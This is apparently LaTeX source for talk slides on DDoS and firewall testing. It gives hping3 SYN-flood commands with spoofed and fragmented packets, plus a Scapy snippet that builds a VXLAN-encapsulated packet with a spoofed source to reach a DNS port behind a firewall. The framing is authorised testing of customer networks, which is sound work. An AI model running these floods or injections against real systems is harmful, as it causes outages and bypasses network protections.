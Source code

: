 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
While testing I use the tool \verb+ifpps+ tool from the Netsniff-ng package  to monitor sending speed, or you can use your router/switch -- Junos \verb+monitor interface+


Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within hosting range, \\
may result in your {\bf single packet} returning answer to another inside network + ARP traffic

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works


Using the built-in option -f for hping

\begin{alltt}\small
-f --frag
    Split  packets  in more fragments, this may be useful in order to test IP
    stacks fragmentation performance and to test if some packet filter is  so
    weak  that  can  be  passed using tiny fragments (anachronistic). Default
    {\bf 'virtual mtu' is 16 bytes}. see also --mtu option.
\end{alltt}

\begin{list1}
\item \verb+hping3 -q --flood -p 80 -S -f $CUST_IP+
\item Similar process with bad checksum and Bad fragment offset
\end{list1}


First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")
broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}
\end{document}
